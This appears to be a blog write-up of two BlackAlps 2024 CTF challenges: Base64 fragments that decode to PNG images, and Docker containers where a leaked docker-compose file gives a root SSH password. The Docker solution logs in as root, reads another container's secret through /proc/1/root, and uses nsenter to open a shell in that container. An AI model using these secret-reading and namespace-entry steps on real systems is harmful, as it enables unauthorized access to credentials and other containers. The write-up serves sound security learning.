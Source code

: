 ```yaml
---
layout: post
title: "BlackAlps 2024 CTF"
author: cryptax
date: 2024-11-10
tags:
- BlackAlps
- CTF
- 2024
- Docker
- Namespace
---
```


## HackCorps Warm Up

### Description

Serge the accountant inadvertently opened an infected file on his workstation. After investigation by the SOC team, the file was found to contain malware designed to extract confidential information. The SOC team asked you to help them investigate the incident. The SOC has found a folder (C:\exfiltr) but cannot recover its contents.

+ we get a file `exfiltr.7z`

### Solution

We unzip the file. There are 3 directories named 0, 1 and 2. Each of them contains text files.
For example this is `./0/1.txt`:

```
...
hn0Fr35h4KRmKQog8P43vML8RX230SGt6OzfiZy3lOb2+YrEjg7ZyXVweX0clW9AQ2+iB9iKUuWXkXO/Gbf/s/xhfaq8kkdN157FBk2z0ux/vYdAN9E+8LTvSdri2+yrXZQwG/M5neh6fJUQV54TH54alkLv0SGGijbFvQQvbJQNO89UjRBR3JbPJ22/kdHuD70e/ugQGufFK0vtGVrIDV79KR2sqfwQP3Jj06wa8e5Ts1/YoPginX8k4BjsEPfO253/xg1607uw9dXre131SU17W+uoaf7nfLah4WfPJUQJd6yYl6waH/6uYrTH3WNt3lvo8E3
```

We quickly recognize it is Base64 encoded. If we decode, the file is part of a PNG image:

```
$ file 1.unb64.png 
1.unb64.png: PNG image data, 1027 x 772, 8-bit/color RGBA, non-interlaced
```

So, we concatenate all text files of the directory (`cat 1.txt 2.txt 3.txt | base64 -d > total.png`) and we get a complete PNG. The image of directory `0` shows a Windows login screen.
In directory `1`, a user named *serge* is trying to login.

In directory `2`, we get the flag.

![](/images/blackalps24-corpsflag.png)

### Conclusion

It was easy, but I'm always in favor for a few easy challenges :)

## Docker challenges: Hidden Secrets

### Description

Hidden secrets in docker containers. There are three flags. The flags are not dependent to each other. Docker Secrets 1: Find and submit the FLAG_FILE

Network ports in scope (to save you an nmap):

HTTP on 80/tcp
SSH on 22/tcp

- docker-secrets.ctf.blackalps.ch

### Solution for flag 1

*This challenge was solved by a team mate, FdlSifu, and I helped a little.*

After an unconclusive run of Dirbuster on the website (`docker run --rm hypnza/dirbuster -u http://docker-secrets.ctf.blackalps.ch`), we finally identified a hidden paths, http://docker-secrets.ctf.blackalps.ch/flag, which suggested http://docker-secrets.ctf.blackalps.ch/docker-compose.yml

This is the docker compose file:

```
services:
  docker-secret:
    image: blackalps2024/docker-secret
    restart: unless-stopped
    build: 
      context: .
      dockerfile_inline: |
        FROM alpine:3.20.2 AS builder
        WORKDIR /
        RUN wget https://ziglang.org/download/0.13.0/zig-linux-x86_64-0.13.0.tar.xz && \
            tar xf zig-linux-x86_64-0.13.0.tar.xz
        WORKDIR /build
        COPY . .
        RUN cp src/main.zig docker-compose.* build.zig build.zig.zon src/www && \
            /zig-linux-x86_64-0.13.0/zig build 

        FROM scratch
        WORKDIR /
        COPY --from=builder /build/zig-out/bin/docker-secret .
        CMD [ "/docker-secret" ]
    read_only: true
    hostname: ${FLAG_HOSTNAME}
    ports:
      - "80:8080"
    secrets:
      - flag
  helper:
    image: blackalps2024/docker-helper
    restart: unless-stopped
    build:
      context: .
      dockerfile_inline: |
        FROM alpine:3.20.2
        WORKDIR /
        RUN apk add --no-cache openssh-server && \
            ssh-keygen -A && \
            echo "PermitRootLogin yes" >> /etc/ssh/sshd_config && \
            echo "root:PleaseLetMeIn" | chpasswd
        COPY ./motd /etc/motd
        CMD [ "/usr/sbin/sshd", "-D", "-e" ]
    read_only: true
    pid: "service:docker-secret"
    ports:
      - "22:22"
    depends_on:
      - docker-secret

secrets:
  flag:
    file: ${FLAG_FILE}
```

First, we notice the root password `PleaseLetMeIn` to log onto the host with SSH. This will have us log in the `docker-helper` container, while the secret flag file is in another container, `docker-secret`.

We log in:

```
$ ssh -o PubkeyAuthentication=no -o PasswordAuthentication=yes root@10.159.0.37
root@10.159.0.37's password: 
Welcome to Alpine!

This is standard Alpine in docker with the following setup:

* OpenSSH server running
* Docker instance running in read-only mode
* The challenge does *not* require a docker escape

Enjoy!
75a91491c843:~#
```

We see the `docker-secret` runs with PID 1. So, we investigate `/proc/1/` and find `/proc/1/root/run/secrets/flag`:

```
75a91491c843:/proc/1/root/run/secrets# cat flag 
BA24{m0uNt_n@m3spaCe_rOck5}
```

### Solution for flag 2

The Docker challenges have another flag, they say it is related to the *hostname*. So, we need to find the hostname of the docker secret container.

The `nsenter` is particularly useful to inspect namespaces and other containers. So, once we are logged in the docker-helper container, we try to inspect the docker container with PID 1 (`-t 1`). Option `-u` preserves the container's hostname and various other environment variables. Option `-i` executes a command. So, we launch a shell for the other container and read its hostname.

```
75a91491c843:~# nsenter -t 1 -u -i sh
~ # hostname
BA24{D1d_U_Kn0w_@bout_UTS_n@Mspac3}
```

### Conclusion

Interesting challenge! I knew Docker containers were not secure towards one another, but had never experienced with that.









